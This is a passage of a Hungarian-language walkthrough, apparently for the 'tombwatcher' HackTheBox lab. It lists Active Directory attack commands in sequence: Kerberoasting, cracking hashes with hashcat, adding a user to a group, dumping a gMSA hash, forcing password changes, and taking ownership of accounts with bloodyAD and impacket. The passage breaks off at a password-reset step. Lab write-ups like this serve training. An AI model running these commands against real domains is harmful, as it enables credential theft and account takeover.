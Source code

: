 ```
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

- Eredmény: kerberoast hash, törhető **hashcattel**:

```
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
```

- **Eredmény:** alfred : bas*********

---

## Csoport abuse, gMSA, service user

### Csoporttagság bővítés

```
bloodyAD -u 'alfred' -p 'bas*******' -d tombwatcher.htb --dc-ip 10.10.11.72 add groupMember INFRASTRUCTURE alfred
```

### gMSA dump

```
python3 gMSADumper.py -u 'alfred' -p 'bas******' -d 'tombwatcher.htb'
```
- Hash: ansible_dev$ : <hash>

### Jelszócsere Sam userre

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'ansible_dev$' -p '<hash>' set password SAM 'NoSecHere!'
```

---

## WriteOwner / GenericAll abuse, John reset

### WriteOwner átvétel:

```
impacket-owneredit -action write -target 'john' -new-owner 'sam' 'tombwatcher.htb/sam':'NoSecHere!' -dc-ip 10.10.11.72
```

### GenericAll John felett (Sammel):

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'NoSecHere!' add genericAll john sam
```

### Jelszó reset John userre:
